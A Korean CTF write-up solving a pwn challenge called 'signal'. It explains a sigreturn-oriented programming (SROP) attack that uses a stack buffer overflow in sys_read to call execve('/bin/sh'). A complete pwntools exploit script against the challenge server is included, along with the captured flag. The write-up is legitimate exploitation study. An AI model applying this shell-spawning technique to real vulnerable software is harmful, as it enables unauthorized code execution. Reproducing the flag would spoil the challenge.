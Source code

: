 # Cykor 여름방학 과제

## signal

문제의 이름처럼 signal을 사용해서 푸는 문제였다. 

![](https://user-images.githubusercontent.com/64826730/91458194-3348df00-e8c0-11ea-89cd-9e1c95e0f99d.png)

nx만 걸려있고, 문제에 libc파일이 없어서 aslr도 없다고 생각하고 풀었다.

![](https://user-images.githubusercontent.com/64826730/91458204-3643cf80-e8c0-11ea-9507-d71faa125867.png)

아이다로 열어서 start부분을 살펴보면 먼저 0x40018c에 위치하는 함수를 호출하는 것을 확인 할 수 있다. 

![](https://user-images.githubusercontent.com/64826730/91458216-38a62980-e8c0-11ea-8d06-4658a7fe2430.png)

해당 함수는 위의 사진처럼 syscall을 이용해서 sys_read를 호출한다. 
이후에는 start로 돌아와서 sys_exit를 호출하고 종료한다.

![](https://user-images.githubusercontent.com/64826730/91458231-3ba11a00-e8c0-11ea-9444-cc3bdfea5ed3.png)

바이너리 안에 존재하는 다른 함수인 0x40017c를 열어보면 sigreturn을 호출하는 것을 알 수 있다. 

***

### sigreturn 

syscall에서 rax=15일때 발생.

esp부터 차례대로 읽어오면서 프로그램의 레지스터를 새롭게 설정하므로, 원하는 함수를 호출할 수 있다. 

pwntools에서는 frame = frame = SigreturnFrame(arch="amd64")로 frame을 선언하고, frame.rax = 0x3b, frame.rdi = binsh등으로 값을 설정한 뒤 payload += str(frame)등의 형태로 붙여주기만 하면, 나머지 레지스터값은 알아서 설정해준다. 

참고 : https://gyeongje.tistory.com/378

***

sys_read부분에서 bof가 발생할 수 있기 때문에, 리턴 주소를 sysgreturn으로 바꾸고, sigretrun을 통해서 sys_execve를 실행시키는 방향으로 진행했다. 

```python 

from pwn import *

#level 1
#p = process("./signal")
p = remote("srv.cykor.kr", 31007)
sig_return = 0x400180
syscall = 0x400185
binsh = 0x4001ca

#level2
payload = '1'*40
s = [0x80,0x01,0x40,0x00,0x00,0x00,0x00,0x00]
for i in s:
    payload+=chr(i)
print(len(payload))

frame = SigreturnFrame(arch="amd64")
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = syscall

payload += str(frame)


#level3
p.sendline(payload)
p.interactive()

```

![](https://user-images.githubusercontent.com/64826730/91458249-3f34a100-e8c0-11ea-9c75-ed193922ecaf.png)

flag = cykor{w31c0m3_70_s19r37urn_~_~}



